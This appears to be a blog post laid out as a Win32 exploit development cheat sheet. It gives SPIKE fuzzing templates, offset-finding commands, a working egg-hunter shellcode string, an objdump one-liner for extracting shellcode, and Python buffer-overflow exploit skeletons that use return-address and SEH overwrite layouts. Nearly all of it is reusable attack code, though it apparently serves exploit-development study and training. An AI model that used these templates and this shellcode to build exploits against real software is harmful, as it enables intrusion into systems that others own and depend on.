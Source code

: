 ```yaml
---
layout: post
title: 'Win32 Exploit Development Cheat Sheet'
---
```



# Fuzzing

Spike Template

```javascript
s_string(“GET “);
s_string_variable(” “);
s_string(” HTTP/1.1\r\n”);
s_string(“Host: “);
s_string_variable(“1.1.1.1\r\n\n”);
```

Spike command

```javascript
./generic_send_tcp <Target-IP> <Target-Port> <script-file> 0 0
```

Offset Calculation

```javascript
./pattern_create -l 5000
./pattern_offset -q OVERFLOW_PATTERN
```

# Egg Hunter

```javascript
Egg "w00t" = "\x77\x30\x30\x74"

egghunter= "\x66\x81\xCA\xFF\x0F\x42\x52\x6A\x02\x58\xCD\x2E\x3C\x05\x5A\x74\xEF\xB8\x77\x30\x30\x74\x8B\xFA\xAF\x75\xEA\xAF\x75\xE7\xFF\xE7"
```

# Shellcode

Compiling & Extract Shellcode from a Binary
```javascript
nasm -f elf32 -o myobj.o myfile.nasm

# use "objdump" to extract the shellcode out from the generated object file "myobj.o"
objdump -d myobj.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

Links

[Writing windows shellcode](https://idafchev.github.io/exploit/2017/09/26/writing_windows_shellcode.html)

[Linux - Windows shellcode](http://www.vividmachines.com/shellcode/shellcode.html)

[Custom Shellcode without WinExec](http://www.gosecure.it/blog/art/452/sec/create-a-custom-shellcode-using-system-function/)

[Get Shellcode From Binary](https://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump)



# Exploit

Skeleton Without Class

```python
import struct

def p(x):
	return struct.pack("<L", x)

def write(payload):
	f = open("poc.txt", "w")
	f.write(payload)
	f.close()

if __name__ == "__main__":
	# TODO: Change me!
	shellcode = (
	)

	padding = "A" * 666

	# TODO: Change me!
	payload = padding
	payload += p(0xdeadbeef)
	payload += shellcode

write(payload)
```


With Class

```python
class Exploit:

	def __init__(self, shellcode):
		self._shellcode = shellcode
		self._payload = None

	def __write(self):
		f = open("poc.txt", "w")
		f.write(self._payload)
		f.close()

	def run(self):
		pattern = "A" * 666

		# TODO: Change me!
		self._payload = pattern

		self.__write()

def main():
	# TODO: Change me!
	shellcode = (
	)

	exploit = Exploit(shellcode)
	exploit.run()

if __name__ == "__main__":
     main()
```

Example

```python
buffer = junk + ret + shellcode

buffer = junk + nseh + seh + shellcode

```

